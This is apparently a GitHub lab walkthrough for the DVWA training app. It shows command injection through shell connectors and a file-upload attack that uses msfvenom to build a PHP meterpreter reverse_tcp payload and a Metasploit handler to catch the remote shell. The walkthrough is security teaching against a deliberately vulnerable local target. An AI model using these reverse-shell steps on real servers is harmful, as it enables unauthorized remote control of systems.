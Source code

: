 # DVWA 

---------------------------

## Command Injection

Command injection let you perform commands on the textbox that is intended for another task such in this case, ping a host.

Connectors can be used here to add a command which will run with the action (or not) that this textbox is intended for:

![image](https://github.com/ELRame/HackingTools/assets/82544416/88a0d631-49be-4e91-afee-22850eccc81c)

Other connectors u can use are: **&&** **&** **;**

With this in mind, and changing the difficulty on DVWA you can take a look at the source code to see if there is some character escaped/blacklisted:

![image](https://github.com/ELRame/HackingTools/assets/82544416/d25a3f58-8f92-40e7-98db-784ea3507280)

---------------------------------

## File Upload

File upload allows you to upload a malicious file into the dvwa directory, with a reverse meterpreter connection, you will be able to run commands on it.

Run msfconsole and search for multi handler:

![image](https://github.com/ELRame/HackingTools/assets/82544416/5e93e9b8-42cf-445a-80c3-fb1750c094a6)

Select the number 30 with ````use 30```` (multi/handler) and set the payload as ````php/meterpreter/reverse_tcp````

![image](https://github.com/ELRame/HackingTools/assets/82544416/7e48c7ee-f1a0-4577-933c-d41c8c2290fc)

Then type ````show options```` to get the fields you need to fill, in this case LHOST, which can be set with ````set LHOST youripmachine```` that in this case is **127.0.0.1** (localhost) since we are running dvwa in the same machine

![image](https://github.com/ELRame/HackingTools/assets/82544416/dcbf1fde-19cd-404d-ae0e-bd91972b9b52)

After this you can create the payload for dvwa with **msfvenom** using the folloring command:

````
msfvenom -p php/meterpreter/reverse_tcp LHOST=youripmachine LPORT=4444 -f raw >malfile.php
````

![image](https://github.com/ELRame/HackingTools/assets/82544416/ea79972c-b9ef-4c1a-acf4-75a3adf10b85)

After this you can go to dvwa and upload the file, once uploaded, you have to go back to metasploit and run the command ````run```` or ````exploit```` in order to put it in listening state:

![image](https://github.com/ELRame/HackingTools/assets/82544416/9ba1a9da-0a65-46ae-b255-b11891429edd)

Now, on dvwa copy the path where the file was uploaded and put it in the url address:

![image](https://github.com/ELRame/HackingTools/assets/82544416/3eec3d74-ba1f-4f7d-ad0d-5f93f0e7a6e0)

After that, go to the url and the meterpreter session should be running:

![image](https://github.com/ELRame/HackingTools/assets/82544416/385b87cc-915d-466f-bc52-b132aec04276)

![image](https://github.com/ELRame/HackingTools/assets/82544416/cbd56dcc-72dd-4736-b78e-9e659f4a3f9e)

### Medium Difficulty

